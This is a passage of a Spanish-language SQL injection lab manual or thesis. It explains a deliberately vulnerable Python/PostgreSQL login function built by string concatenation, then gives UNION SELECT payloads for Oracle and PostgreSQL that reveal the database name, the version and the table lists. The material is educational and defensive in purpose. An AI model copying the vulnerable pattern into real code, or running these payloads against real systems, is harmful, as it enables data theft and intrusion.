\subsubsection{Inicio de la Función}
La función comienza con algunas impresiones de depuración:

\begin{lstlisting}[language=Python]
def login_inseguro_errors_postgresql(username, password):
    print("---login---")
    print ("---login_inseguro_errors---")
\end{lstlisting}

Esto simplemente imprime un mensaje indicando que se ha llamado a la función, útil para seguimiento en logs.

\subsubsection{Conexión a la Base de Datos}
El siguiente bloque de código establece una conexión a la base de datos:

\begin{lstlisting}[language=Python]
    conexion = dbConectarPostgreSQL()  # Abre la conexión para autenticación
    if not conexion:
        print("Error: no se pudo conectar para autenticar.")
        return False
\end{lstlisting}

\textbf{Explicación:}
\begin{itemize}
    \item Llama a la función \texttt{dbConectarPostgreSQL()} para intentar abrir una conexión.
    \item Si no se logra establecer la conexión, muestra un mensaje de error y devuelve \texttt{False}.
\end{itemize}

\subsubsection{Construcción de la Consulta SQL}
El siguiente bloque construye la consulta SQL para verificar las credenciales:

\begin{lstlisting}[language=Python]
    sentencia = "SELECT * FROM Usuarios WHERE username = '"+username+"' AND password = '"+password+"'"
\end{lstlisting}

\textbf{Explicación:}
\begin{itemize}
    \item Se genera una consulta SQL concatenando directamente el nombre de usuario y la contraseña.
    \item \textbf{Problema de Seguridad:} Este método es altamente inseguro, ya que permite inyección SQL. Se debe utilizar consultas parametrizadas.
\end{itemize}

\subsubsection{Ejecución de la Consulta}
La consulta se ejecuta y se verifica si el usuario existe:

\begin{lstlisting}[language=Python]
    try:
        cursor = conexion.cursor()
        cursor.execute(sentencia)
        usuario = cursor.fetchone()
\end{lstlisting}

\textbf{Explicación:}
\begin{itemize}
    \item Se obtiene un cursor de la conexión para ejecutar la consulta.
    \item \texttt{execute(sentencia)} ejecuta la consulta SQL.
    \item \texttt{fetchone()} recupera el primer resultado, si existe.
\end{itemize}

\subsubsection{Cierre de la Conexión}
Después de ejecutar la consulta, la conexión se cierra:

\begin{lstlisting}[language=Python]
        cursor.close()
        dbDesconectar(conexion)  # Cierra la conexión después de la autenticación
\end{lstlisting}

\textbf{Explicación:}
\begin{itemize}
    \item Se cierra el cursor para liberar recursos.
    \item Se cierra la conexión a la base de datos con \texttt{dbDesconectar()}.
\end{itemize}

\subsubsection{Verificación del Usuario}
El siguiente bloque determina si la autenticación fue exitosa:

\begin{lstlisting}[language=Python]
        if usuario:
            if isinstance(usuario, tuple) and len(usuario) == 3:
                return {"resultado": usuario, "sentencia": sentencia, "auth": "true"}
            else:
                print("Usuario autenticado:", usuario)
                return {"resultado": usuario, "sentencia": sentencia}
        else:
            print("Usuario o contraseña incorrectos")
            return {"sentencia": sentencia}
\end{lstlisting}

\textbf{Explicación:}
\begin{itemize}
    \item Si se recupera un usuario:
    \begin{itemize}
        \item Si el resultado es una tupla de longitud 3, se devuelve un diccionario con los datos del usuario, la sentencia SQL y un indicador de autenticación exitosa.
        \item En caso contrario, se devuelve un diccionario con los datos del usuario y la sentencia SQL.
    \end{itemize}
    \item Si no se encuentra el usuario, indica que las credenciales son incorrectas y devuelve únicamente la consulta SQL.
\end{itemize}

\subsubsection{Manejo de Errores}
El bloque \texttt{try-except} captura errores durante la ejecución:

\begin{lstlisting}[language=Python]
    except PBD.DatabaseError as error:
        print("Error al autenticar usuario")
        print(error)
        dbDesconectar(conexion)
        return {"resultado":error, "sentencia":sentencia}
\end{lstlisting}

\textbf{Explicación:}
\begin{itemize}
    \item Si ocurre un error durante la consulta, se captura y se muestra el mensaje de error.
    \item Se asegura que la conexión se cierre en caso de error.
    \item Devuelve un diccionario con el error y la sentencia SQL utilizada.
\end{itemize}

\subsubsection{Resumen de Problemas de Seguridad}
\begin{itemize}
    \item La concatenación de cadenas en la consulta SQL permite ataques de inyección SQL.
    \item No se utiliza un sistema de autenticación seguro ni se implementan medidas de encriptación para las contraseñas.
    \item La función asume que los datos en la base de datos están estructurados de una forma específica, sin validación adicional.
\end{itemize}

\subsubsection{Código Completo}
\begin{lstlisting}[language=Python]
def login_inseguro_errors_postgresql(username, password):
    print("---login---")
    print ("---login_inseguro_errors---")
    conexion = dbConectarPostgreSQL()  # Abre la conexión para autenticación
    if not conexion:
        print("Error: no se pudo conectar para autenticar.")
        return False

    sentencia = "SELECT * FROM Usuarios WHERE username = '"+username+"' AND password = '"+password+"'"
    try:
        cursor = conexion.cursor()
        cursor.execute(sentencia)
        usuario = cursor.fetchone()

        cursor.close()
        dbDesconectar(conexion)  # Cierra la conexión después de la autenticación
        if usuario:
            if isinstance(usuario, tuple) and len(usuario) == 3:
                return {"resultado": usuario, "sentencia": sentencia, "auth": "true"}
            else:
                print("Usuario autenticado:", usuario)
                return {"resultado": usuario, "sentencia": sentencia}
        else:
            print("Usuario o contraseña incorrectos")
            return {"sentencia": sentencia}
    except PBD.DatabaseError as error:
        print("Error al autenticar usuario")
        print(error)
        dbDesconectar(conexion)
        return {"resultado":error, "sentencia":sentencia}
\end{lstlisting}

\subsection{Diferenciación con PostgreSQL}

Todos los tipos de inyección usan las mismas





\section{Inyección basada en Union Attack}
La inyección SQL basada en \textbf{UNION} es una técnica en la que un atacante utiliza la cláusula UNION para combinar los resultados de una consulta legítima con datos maliciosamente solicitados, permitiendo extraer información sensible de la base de datos. 
Para llevar a cabo este ataque, el atacante identifica puntos vulnerables en la aplicación web, determina el \textbf{número de columnas} en la consulta original y luego inyecta una consulta maliciosa que utiliza \textbf{UNION SELECT} para unir los resultados deseados. 
Para prevenir este tipo de ataques, es esencial validar y sanear todas las entradas de usuario, utilizar consultas parametrizadas y aplicar el principio de privilegios mínimos en las cuentas de la base de datos.

\subsection{Mecanismo del ataque}

\begin{enumerate}
    \item \textbf{Identificación de puntos vulnerables:} El atacante busca parámetros de entrada en la aplicación web que interactúan directamente con la base de datos. Esto puede incluir campos de formularios, parámetros en la URL, cookies o encabezados HTTP.
    
    \item \textbf{Determinación del número de columnas:} Utilizando inyecciones como \texttt{ORDER BY} o consultas de prueba con \texttt{UNION SELECT NULL}, el atacante descubre el número de columnas en la consulta original. Esto asegura que la consulta maliciosa inyectada sea compatible con la estructura de la consulta legítima.
    
    \item \textbf{Construcción de la inyección:} Una vez identificados los parámetros vulnerables y el número de columnas, el atacante construye una consulta maliciosa utilizando \texttt{UNION SELECT}. Por ejemplo: \textit{http://example.com/page.php?id=1 UNION SELECT username, password FROM users}. En este caso, los datos sensibles de la tabla \texttt{users} son combinados con la consulta original.
\end{enumerate}

Para acceder a la sección especifica para esta inyección en el laboratorio, una vez desplegado el servidor, se debe seleccionar la opción \textit{UNION-Attack SQL Injection}.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{Imagenes/union1.png}
    \caption{Opción de Union Attack en el laboratorio de inyecciones SQL}
\end{figure}

En esta sección, se tiene un formulario básico de inicio de sesión con dos campos: \textit{usuario} y \textit{contraseña}.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{Imagenes/union2.png}
    \caption{Formulario de inicio de sesión para Union Attack}
\end{figure}

%Workflow de explotación (probando cada inyeccion). Mencionar al final que se ha documentado en oracle, pero que en Postgre se sigue la misma logica de explotacion pero adaptando las inyecciones, y mostrar las inyecciones adaptadas, explicando las diferencias.
\subsection{Obtención de nombre de la base de datos}
En primer lugar, una de las cosas más básicas que se pueden obtener con este tipo de inyección SQL es el nombre de la base de datos con la que se está operando. Esta información, aunque pueda parecer trivial, resulta fundamental para los atacantes, ya que les permite personalizar sus ataques dependiendo del sistema de gestión de bases de datos que esté en uso.

En este laboratorio, para realizar este ataque en Oracle, se utiliza una inyección SQL que combina la consulta legítima con un \texttt{UNION SELECT}. En concreto, el payload malicioso es el siguiente:

\begin{lstlisting}[language=SQL]
cualquier_input' UNION SELECT 1, ora_database_name, NULL AS nombre_bd_relleno_1, NULL AS nombre_bd_relleno_2 FROM dual --
\end{lstlisting}

En este caso:
\begin{itemize}
    \item \texttt{ora\_database\_name}: Es una función específica de Oracle que devuelve el nombre de la base de datos activa.
    \item \texttt{NULL AS nombre\_bd\_relleno\_1} y \texttt{NULL AS nombre\_bd\_relleno\_2}: Se utilizan para completar el número de columnas requerido por la consulta original, ya que la cláusula \texttt{UNION SELECT} debe coincidir con el número y tipo de columnas de la consulta legítima.
    \item \texttt{dual}: Es una tabla especial de Oracle utilizada para ejecutar consultas que no necesitan datos de tablas reales.
\end{itemize}

\subsubsection{Explicación del funcionamiento}
La cláusula \texttt{UNION SELECT} combina los resultados de dos consultas SQL. En este caso, la inyección SQL modifica la consulta legítima original, añadiendo una nueva consulta que no está relacionada con los datos legítimos de la aplicación, pero que proporciona información sensible. Es importante tener en cuenta que la consulta maliciosa debe tener el mismo número de columnas que la consulta original.
Por ejemplo, si la consulta legítima tiene cuatro columnas (en este caso en la tabla \textit{usuarios} existen las columnas \texttt{id}, \texttt{username}, \texttt{password} y \texttt{session\_cookie}), la inyección debe proporcionar exactamente cuatro valores en su cláusula \texttt{UNION SELECT}. De lo contrario, Oracle devolverá un error debido a la incompatibilidad de columnas. Para esta inyección, solo interesa el valor de \texttt{ora\_database\_name}, pero se incluyen \texttt{1} y \texttt{NULL} como valores de relleno para las demás columnas requeridas.

Al ejecutar esta inyección, el atacante obtiene el nombre de la base de datos en el campo correspondiente, que se muestra en la interfaz del laboratorio como un valor destacado en la salida del ataque.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{Imagenes/union3.png}
    \caption{Obtención del nombre de la base de datos en Oracle}
\end{figure}

\subsection{Obtención de la versión de la base de datos}
Otro de los datos fundamentales que se pueden obtener mediante una inyección SQL basada en \texttt{UNION SELECT} es la versión de la base de datos en uso. Este dato proporciona información valiosa al atacante, ya que permite identificar la versión exacta del sistema de gestión de bases de datos (SGBD) Oracle. Con esta información, es posible adaptar los ataques a las vulnerabilidades específicas de esa versión.

En este laboratorio, se utiliza la siguiente inyección SQL para obtener la versión de la base de datos Oracle:

\begin{lstlisting}[language=SQL]
cualquier_input' UNION SELECT NULL, banner, NULL, NULL FROM v$version WHERE banner LIKE 'Oracle%' --
\end{lstlisting}

En este caso:
\begin{itemize}
    \item \texttt{banner}: Es una columna de la vista \texttt{v\$version}, que contiene información detallada sobre la versión y el entorno de la base de datos. Esta columna proporciona información como la edición de la base de datos, la versión y el sistema operativo sobre el que está ejecutándose.
    \item \texttt{v\$version}: Es una vista de diccionario del sistema en Oracle que almacena información sobre las versiones de los componentes del sistema de gestión de bases de datos. Esta vista es ampliamente utilizada tanto en administración legítima como en ataques para identificar detalles del entorno.
    \item \texttt{NULL}: Al igual que en otras inyecciones \texttt{UNION SELECT}, los valores \texttt{NULL} se utilizan para rellenar las columnas restantes en la consulta inyectada. Esto garantiza que la consulta inyectada tenga el mismo número de columnas que la consulta legítima original, evitando errores de sintaxis en la ejecución.
    \item \texttt{WHERE banner LIKE 'Oracle\%'}: Este filtro se aplica para restringir los resultados de la consulta únicamente a las filas que contienen información relevante sobre la base de datos Oracle. La condición \texttt{LIKE 'Oracle\%'} asegura que solo se devuelvan banners relacionados con la base de datos Oracle, excluyendo otros componentes potenciales del sistema.
\end{itemize}

\subsubsection{Explicación del funcionamiento}
El objetivo de esta inyección es aprovechar la estructura de la vista \texttt{v\$version} para obtener la versión exacta de la base de datos. La consulta inyectada utiliza \texttt{UNION SELECT} para combinar los resultados de la consulta legítima con una consulta que devuelve el contenido de la columna \texttt{banner} de la vista \texttt{v\$version}. Al ejecutar esta inyección, el valor de la versión se presenta en el campo correspondiente de la interfaz de la aplicación, proporcionando al atacante la información necesaria para ajustar ataques posteriores.

Al ejecutar esta inyección, el atacante obtiene la versión de la base de datos en el campo correspondiente, que se muestra en la interfaz del laboratorio como un valor destacado en la salida del ataque.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{Imagenes/union4.png}
    \caption{Obtención de la versión de la base de datos en Oracle}
\end{figure}

\subsection{Obtención de todas las tablas de la base de datos}
Un paso clave en un ataque avanzado es obtener un listado de todas las tablas de la base de datos. Este tipo de información permite a un atacante identificar las estructuras de datos disponibles, lo que facilita la selección de objetivos específicos, como tablas que almacenan credenciales, datos confidenciales o información sensible. Para lograr esto, se puede realizar una inyección SQL que extraiga información directamente de las vistas del sistema disponibles en la base de datos.

En este laboratorio, se utiliza la siguiente inyección SQL para obtener un listado de las tablas de la base de datos Oracle bajo el esquema del propietario \texttt{SYSTEM}:

\begin{lstlisting}[language=SQL]
cualquier_input' UNION SELECT 1, NULL, OWNER, TABLE_NAME FROM all_tables WHERE OWNER='SYSTEM' -- AND password = 'cualquier_input'
\end{lstlisting}

En este caso:
\begin{itemize}
    \item \texttt{OWNER}: Es una columna de la vista \texttt{ALL\_TABLES} que contiene el nombre del propietario (esquema) al que pertenece cada tabla en la base de datos. En este caso, se está filtrando específicamente al propietario \texttt{SYSTEM}, que normalmente contiene tablas relacionadas con la administración de la base de datos.
    \item \texttt{TABLE\_NAME}: Es otra columna de la vista \texttt{ALL\_TABLES} que contiene el nombre de cada tabla dentro del esquema indicado. Esta es la información objetivo del ataque, ya que revela todos los nombres de las tablas disponibles.
    \item \texttt{NULL}: Se utiliza como valor de relleno para columnas que no son relevantes en la consulta inyectada. Esto asegura que el número de columnas en la consulta inyectada coincida con el de la consulta legítima, evitando errores de ejecución.
    \item \texttt{ALL\_TABLES}: Es una vista del diccionario de datos de Oracle que muestra todas las tablas accesibles al usuario actual, incluidas las de otros esquemas a las que tenga permisos.
    \item \texttt{WHERE OWNER='SYSTEM'}: Este filtro se aplica para limitar los resultados de la consulta a las tablas que pertenecen al esquema \texttt{SYSTEM}. Esto permite enfocar el ataque en un área específica de la base de datos.
    \item \texttt{-- AND password = 'cualquier\_input'}: El uso del comentario (\texttt{--}) elimina cualquier condición adicional en la consulta original, como la verificación de contraseñas, asegurando que la consulta inyectada se ejecute sin restricciones. En este caso la inyección se realiza en el campo \textbf{}
\end{itemize}

\subsubsection{Explicación del funcionamiento}
La consulta inyectada aprovecha la vista \texttt{ALL\_TABLES} para obtener un listado de todas las tablas accesibles en el esquema \texttt{SYSTEM}. La combinación de \texttt{UNION SELECT} con esta vista permite extraer datos estructurados directamente del diccionario de datos de Oracle.

La estructura de la consulta original se mantiene al incluir cuatro valores en la inyección (\texttt{1}, \texttt{NULL}, \texttt{OWNER} y \texttt{TABLE\_NAME}), lo que coincide con el número de columnas de la consulta legítima. Esto evita errores de sintaxis y asegura que los resultados de la inyección se combinen correctamente con los de la consulta original.

Al ejecutar esta inyección, el atacante obtiene todos los nombres de las tablas almacenadas en la base de datos.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{Imagenes/union5.png}
    \caption{Obtención de tablas de la base de datos en Oracle}
\end{figure}

Al ejecutar una inyección SQL que consulta la vista \texttt{ALL\_TABLES}, es común que el resultado incluya tablas creadas por defecto por Oracle, como aquellas asociadas al sistema o utilizadas internamente para la administración de la base de datos. Para centrarse únicamente en tablas relevantes para el atacante, se pueden aplicar filtros adicionales en la cláusula \texttt{WHERE} de la inyección.

Un ejemplo de una inyección con estos filtros aplicados es el siguiente:

\begin{lstlisting}[language=SQL]
cualquier_input' UNION SELECT 1, NULL, OWNER, TABLE_NAME FROM all_tables 
WHERE OWNER = 'SYSTEM' 
AND TABLE_NAME NOT LIKE '%$%' 
AND TABLE_NAME NOT LIKE 'SYS%' 
AND TABLE_NAME NOT LIKE 'LOGMNR%' --
\end{lstlisting}

En este caso:
\begin{itemize}
    \item \texttt{TABLE\_NAME NOT LIKE '\%\$\%'}: Filtra tablas cuyos nombres contienen el carácter \texttt{\$}, que generalmente son tablas de sistema utilizadas internamente por Oracle para la gestión de metadatos o componentes específicos.
    \item \texttt{TABLE\_NAME NOT LIKE 'SYS\%'}: Excluye tablas cuyos nombres comienzan con \texttt{SYS}, ya que estas suelen pertenecer al esquema del sistema (\texttt{SYS}) y no son de interés para la mayoría de los ataques.
    \item \texttt{TABLE\_NAME NOT LIKE 'LOGMNR\%'}: Elimina tablas relacionadas con la funcionalidad de \texttt{LogMiner} de Oracle, una herramienta utilizada para analizar registros de transacciones y que, en la mayoría de los casos, no contiene datos directamente útiles para los atacantes.
\end{itemize}

Al aplicar estos filtros, los resultados de la consulta se limitan a las tablas más relevantes, lo que facilita el análisis y reduce el ruido en el proceso de reconocimiento. Esto es especialmente útil en entornos con un gran número de tablas, donde los resultados pueden ser abrumadores si se incluyen todas las tablas creadas por defecto por Oracle.

Por ejemplo, al filtrar las tablas de sistema, el atacante puede enfocarse en tablas creadas por el administrador o los desarrolladores de la base de datos, que probablemente contengan información sensible o relacionada con las funcionalidades de la aplicación.

El laboratorio refleja esta estrategia de filtrado mostrando únicamente las tablas relevantes después de ejecutar la inyección filtrada. Esto permite a los participantes observar cómo una consulta más específica puede ser más efectiva en un ataque real.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{Imagenes/union6.png}
    \caption{Obtención de tablas filtradas en Oracle}
\end{figure}

\subsection{Diferencias de las inyecciones en PostgreSQL}

Aunque las inyecciones \texttt{UNION SELECT} comparten un principio básico, existen diferencias importantes entre Oracle y PostgreSQL debido a las particularidades de cada sistema de gestión de bases de datos. Estas diferencias incluyen:
\begin{itemize}
    \item Nombres y estructuras de las vistas del sistema.
    \item Sintaxis y funciones específicas para obtener metadatos.
    \item La necesidad de adaptaciones en los valores de relleno (\texttt{NULL} o literales).
\end{itemize}

A continuación, se analizarán las diferencias específicas para cada tipo de inyección, comparando las consultas utilizadas en Oracle y PostgreSQL.

\subsubsection{Obtención del nombre de la base de datos}
En Oracle, se utiliza la función \texttt{ora\_database\_name} para obtener el nombre de la base de datos activa, mientras que en PostgreSQL se utiliza la función \texttt{current\_database()}. La sintaxis de ambas inyecciones es la siguiente:

\begin{itemize}
    \item \textbf{Oracle}:
    \begin{lstlisting}[language=SQL]
    cualquier_input' UNION SELECT 1, ora_database_name, NULL AS nombre_bd_relleno_1, NULL AS nombre_bd_relleno_2 FROM dual --
    \end{lstlisting}

    \item \textbf{PostgreSQL}:
    \begin{lstlisting}[language=SQL]
    cualquier_input' UNION SELECT NULL, current_database() AS nombre_bd, NULL, NULL; --
    \end{lstlisting}
\end{itemize}

\textbf{Diferencias clave:}
\begin{itemize}
    \item En PostgreSQL, la función \texttt{current\_database()} se utiliza para devolver el nombre de la base de datos activa. A diferencia de \texttt{ora\_database\_name}, esta función no requiere tablas auxiliares como \texttt{dual}.
    \item PostgreSQL permite la ejecución directa de la función sin necesidad de tablas adicionales, simplificando la consulta.
    \item Los valores de relleno (\texttt{NULL}) en PostgreSQL cumplen la misma función de garantizar la compatibilidad con la estructura de la consulta original.
\end{itemize}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{Imagenes/union7.png}
    \caption{Obtención del nombre de la base de datos en PostgreSQL}
\end{figure}

\subsubsection{Obtención de la versión de la base de datos}
Para obtener la versión de la base de datos, Oracle utiliza la vista \texttt{v\$version}, mientras que en PostgreSQL se utiliza la función \texttt{version()} que devuelve información detallada del sistema. Las inyecciones correspondientes son:

\begin{itemize}
    \item \textbf{Oracle}:
    \begin{lstlisting}[language=SQL]
    cualquier_input' UNION SELECT NULL, banner, NULL, NULL FROM v$version WHERE banner LIKE 'Oracle%' --
    \end{lstlisting}

    \item \textbf{PostgreSQL}:
    \begin{lstlisting}[language=SQL]
    cualquier_input' UNION SELECT NULL, version(), NULL, NULL; --
    \end{lstlisting}
\end{itemize}

\textbf{Diferencias clave:}
\begin{itemize}
    \item En PostgreSQL, la función \texttt{version()} devuelve un solo valor con información sobre la versión del sistema de gestión de bases de datos, el sistema operativo y otros detalles relevantes, mientras que Oracle utiliza una vista que contiene múltiples filas.
    \item PostgreSQL no requiere un filtro como \texttt{WHERE banner LIKE 'Oracle\%'}, ya que la función \texttt{version()} devuelve directamente la información necesaria.
\end{itemize}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{Imagenes/union8.png}
    \caption{Obtención de la versión de la base de datos en PostgreSQL}
\end{figure}

\subsubsection{Obtención de todas las tablas de la base de datos}
Para obtener un listado de todas las tablas, Oracle utiliza la vista \texttt{ALL\_TABLES}, mientras que PostgreSQL emplea \texttt{information\_schema.tables}. Las inyecciones correspondientes son:

\begin{itemize}
    \item \textbf{Oracle}:
    \begin{lstlisting}[language=SQL]
    cualquier_input' UNION SELECT 1, NULL, OWNER, TABLE_NAME FROM all_tables WHERE OWNER='SYSTEM' --
    \end{lstlisting}

    \item \textbf{PostgreSQL}:
    \begin{lstlisting}[language=SQL]
    cualquier_input' UNION SELECT NULL, NULL, table_schema, table_name 
    FROM information_schema.tables WHERE table_schema = 'public'; --
    \end{lstlisting}
\end{itemize}

\textbf{Diferencias clave:}
\begin{itemize}
    \item En PostgreSQL, la vista \texttt{information\_schema.tables} se utiliza para obtener un listado de tablas, donde \texttt{table\_schema} corresponde al esquema del propietario de la tabla y \texttt{table\_name} al nombre de la tabla.
    \item La condición \texttt{WHERE table\_schema = 'public'} se utiliza en PostgreSQL para filtrar las tablas creadas en el esquema \texttt{public}, que es el predeterminado en muchas aplicaciones.
